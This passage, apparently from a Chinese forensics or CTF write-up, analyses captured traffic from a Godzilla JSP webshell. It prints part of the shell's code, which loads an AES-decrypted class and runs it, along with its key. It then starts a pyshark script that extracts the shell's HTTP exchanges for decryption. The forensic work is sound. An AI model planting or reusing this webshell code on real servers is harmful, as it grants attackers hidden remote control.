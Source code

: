 ```plain
        try {
            javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
            c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
            return c.doFinal(s);
        } catch (Exception e) {
            return null;
        }
    } %>
<%
    try {
        byte[] data = new byte[Integer.parseInt(request.getHeader("Content-Length"))];
        java.io.InputStream inputStream = request.getInputStream();
        int _num = 0;
        while ((_num += inputStream.read(data, _num, data.length)) < data.length) ;
        data = x(data, false);
        if (session.getAttribute("payload") == null) {
            session.setAttribute("payload", new X(this.getClass().getClassLoader()).Q(data));
        } else {
            request.setAttribute("parameters", data);
            Object f = ((Class) session.getAttribute("payload")).newInstance();
            java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();
            f.equals(arrOut);
            f.equals(pageContext);
            f.toString();
            response.getOutputStream().write(x(arrOut.toByteArray(), true));
        }
    } catch (Exception e) {
    }
%>
```

可以看到这是未加密的哥斯拉 JSP 木马，key 是 748007e861908c03，那么可以通过解密脚本去解密流量，具体分析请看[这里](https://xz.aliyun.com/t/10556)，这里放一下我自动提取哥斯拉木马的交互流量分析脚本和解密脚本。

```plain
# extract_pcap.py
import pyshark
import pickle

pcap = pyshark.FileCapture(
    "../hard_web.pcap", display_filter="http.request.uri==\"/shell.jsp\" or http.response.code == 200", tshark_path=R"D:\whitehat\tools\Wireshark\tshark.exe")

HTTPchat = {"req": [], "res": []}  # 创建请求和响应的字典


def get_file_data(pkt):  # 获取 file_data
    if int(pkt.http.content_length) == 0:  # 检测是否有 file_data
        return None
    if int(pkt.http.content_length) != len(pkt.http.file_data):  # 检测 file_data 内容是否完整
        reassmbledData = pkt.DATA.tcp_reassembled_data.binary_value if (
            "DATA" in pkt) else pkt.TCP.payload.binary_value
        Data = reassmbledData[reassmbledData.find("\r\n\r\n".encode())+4:]
        if int(pkt.http.content_length) == len(Data):  # 这段可以不用加，一般情况下都是完整的
            return Data
    else:
        return pkt.http.file_data.binary_value


for pkt in pcap:
    if int(pkt.number) < 24256:  # 跳到关键请求
        continue
    if pkt.http.chat.split(" ")[0] in ["GET", "POST"]:  # 检测是否是请求
        HTTPchat["req"].append(
```